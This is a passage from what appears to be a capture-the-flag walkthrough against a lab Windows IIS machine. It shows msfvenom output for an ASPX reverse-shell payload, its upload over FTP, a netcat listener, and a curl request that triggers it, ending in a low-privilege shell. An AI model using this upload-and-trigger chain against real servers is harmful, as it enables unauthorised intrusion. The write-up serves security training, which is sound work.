 this is works.

```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2714 bytes
Saved as: shell.aspx
```


## Delivery & Exploit


After re-logging in to FTP, I place the file with mput:

``` bash
mput shell.aspx
```

after confirming this works:

```
mput shell.aspx? y
200 PORT command successful.
150 Opening ASCII mode data connection.
226 Transfer complete.
2749 bytes sent in 0.00 secs (30.4843 MB/s)
``` 

I exit FTP and set up my listener:

``` bash
nc -nvlp 1337
```

And trigger in a different terminal with curl:

``` bash
curl -ik $TARGET/shell.aspx
```

Back in my listener terminal I have a shell:

```
listening on [any] 1337 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.5] 49159
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>
```

Checking my permissions I see I have a low prive user:

``` cmd
whoami
iis apppool\web
```
